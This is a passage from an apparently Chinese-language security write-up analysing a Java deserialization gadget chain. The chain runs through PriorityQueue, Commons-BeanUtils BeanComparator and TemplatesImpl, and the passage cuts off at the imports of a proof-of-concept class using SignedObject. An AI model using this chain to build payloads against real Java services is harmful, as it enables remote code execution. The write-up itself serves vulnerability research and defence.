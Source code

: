 [![](assets/1709112106-a06203a57f3d35200da00845fd77f4dd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227203002-edb98b50-d56b-1.png)

在`heapify`​中就传了对象，再往上跟就是`readObject`​了，而在`heapify`​中进行了数组的右移所以可以寻找到该属性通过 `priorityQueue.add(templates);`​传入的类，如果我们传入 `3`​ 就会不一样了

[![](assets/1709112106-053dd297d695b3a621104afd1cec29ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227203006-f0506bd6-d56b-1.png)

就会变成数字类`3`​ 这也就是为什么我们队列这里要写入`TemplatesImpl`​类，这样子才能去调用到`TemplatesImpl`​类的 getter 方法

调用链

```plain
PriorityQueue#ReadObject() -> PriorityQueue#siftDownUsingComparator() -> BeanComparator#compare() ->PropertyUtilsBean#getSimpleProperty() -> TemplatesImpl#getOutputProperties()
```

```plain
package SignedObject;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
```